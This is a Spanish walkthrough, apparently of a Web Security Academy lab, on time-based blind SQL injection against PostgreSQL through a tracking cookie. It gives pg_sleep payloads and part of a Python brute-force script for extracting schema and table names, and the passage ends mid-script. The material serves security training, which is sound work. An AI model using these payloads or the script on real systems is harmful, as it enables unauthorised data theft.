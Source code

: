 Obtener los `esquemas` para la `base de datos actual`

```
# python sqli_time_based.py
[-] Fuerza bruta: C5PhDxyLUgYK5wqP'||case when (substr((select string_agg(schema_name,', ') from information_schema.schemata),38,1)='a') then pg_sleep(2) else pg_sleep(
[↑] Output: pg_catalog,+public,+information_schema
```

Con este `payload` podemos `obtener` la `longitud` de las `tablas` del `esquema public`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(length((select+string_agg(table_name,', ')+from+information_schema.tables+where+table_schema='public'))>1)+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD  
```

La `longitud` es de `15 caracteres`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(length((select+string_agg(table_name,', ')+from+information_schema.tables+where+table_schema='public'))=15)+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD  
```

Con este `payload` podremos las `tablas` del `esquema public`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(substr((select+string_agg(table_name,', ')+from+information_schema.tables+where+table_schema='public'),1,1)='a')+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD  
```

Creamos este `script` en `python` para `iterar` sobre el `payload anterior`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a8c0022048b993981c20d0000b3004b.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 39):
            for character in characters:
                cookies = {
                    'TrackingId': "C5PhDxyLUgYK5wqP'||case when (substr((select string_agg(table_name,', ') from information_schema.tables where table_schema='public'),%d,1)='%s') then pg_sleep(2) else pg_sleep(0) end-- - " % (position, character),
```